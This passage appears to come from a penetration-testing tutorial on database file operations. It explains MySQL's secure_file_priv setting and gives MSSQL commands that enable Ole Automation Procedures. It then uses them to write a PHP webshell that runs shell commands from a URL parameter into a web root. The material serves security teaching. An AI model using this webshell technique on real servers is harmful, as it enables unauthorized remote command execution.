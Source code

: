 In `MySQL`, a global system variable [secure_file_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv) limits the effect of data import and export operations, such as those performed by the `LOAD DATA` and `SELECT … INTO OUTFILE` statements and the [LOAD_FILE()](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_load-file) function. These operations are permitted only to users who have the [FILE](https://dev.mysql.com/doc/refman/5.7/en/privileges-provided.html#priv_file) privilege.
`secure_file_priv` may be set as follows:
- If empty, the variable has no effect, which is not a secure setting.
- If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations.

#### MySQL - Secure File Privileges
```shell
mysql> show variables like "secure_file_priv";

+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
```

To write files using `MSSQL`, we need to enable [Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option), which requires admin privileges, and then execute some stored procedures to create the file:

#### MSSQL - Enable Ole Automation Procedures
```cmd-session
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

#### MSSQL - Create a File
Here we open a file and write a php webshell.
```cmd-session
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

## Read Local Files
By default, `MSSQL` allows file read on any file in the operating system to which the account has read access. We can use the following SQL query:
